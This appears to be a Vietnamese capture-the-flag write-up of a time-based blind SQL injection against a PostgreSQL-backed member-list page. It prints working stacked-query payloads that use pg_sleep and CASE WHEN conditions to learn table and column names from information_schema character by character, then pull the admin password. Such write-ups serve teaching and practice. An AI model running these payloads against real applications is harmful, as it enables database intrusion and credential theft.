




title hãy kiên nhẫn =))), ok rất mất thời gian


web có 2 chức năng chính, tuy nhiên feature login mình đã check rồi không bị sqli, chỉ còn member list

như 1 thói quen khi check time base, mình sẽ cho nó sleep.
ở đây mình check từng syntax sleep của từng db, và khi truyền payload pg_sleep(10) thì nó đã sleep thật -> db là postgreSQL

```
1;select%20pg_sleep(20)--a
```


việc cần làm giờ là brute force tên bảng, cột rồi lấy data thôi, tuy nhiên ở bài này cũng là blind nên cần brute force từng kí tự 

mình phải check xem tên bảng có bao nhiêu kí tự để còn brute force tên bảng, và đây là payload mình sử dụng

```
1;select case when ((select length(table_name) from information_schema.tables limit 1) = 5 ) then pg_sleep(10) else pg_sleep(-1) end --a
```


payload này cơ bản nên các bạn cố gắng hiểu nhé
vậy là check độ dài tên bảng thứ nhất là 5
Bài này bảng thứ nhất chứa password mới nhanh, chứ không ae phải thêm thằng off set để check table thứ 2,3,4,... thì có mà đến mùa quýt =)))

khi đã có độ dài tên bảng thì tìm tên bảng thôi, brute force từng kí tự

```
1;select case when (substr(select table_name from information_schema.tables limit 1),1,1)=chr(65)) then pg_sleep(10) else pg_sleep(-1) end --a
```

ở đây mình dùng hàm chr() vì đã thử trước đó rồi :v, nếu truyền dạng text vào thì không sleep tí mẹ nào cả =))). còn hàm chr() là gì các bạn research nhá kkk. đại loại là nó chuyển từ unicode sang text thôi

đến đây thì có thể brute force được rồi, thay đổi substr để check kí tự thứ 2, kết quả cuối cho ta bảng tên `users`

có tên bảng thì check tên cột

```
1; select case when (substr((select column_name from information_schema.columns where table_name='users' limit 1), 1, 1) = chr(65)) then pg_sleep(10) else pg_sleep(0) end --a
```
sẽ tìm được tên cột là password thôi, hơi tốn thời gian nên mình ko làm lại nữa

payload lấy password


```
1; select case when (select password from users where username='admin') like 'a%' then pg_sleep(10) else pg_sleep(0) end --a
```


kiểm tra xem kí tự đầu có phải `'a'` không. 

hơi tốn thời gian nhưng đề bảo hãy kiên nhẫn mà =))))

`Flag:xxx-lam_di_dung_chep-xxx`
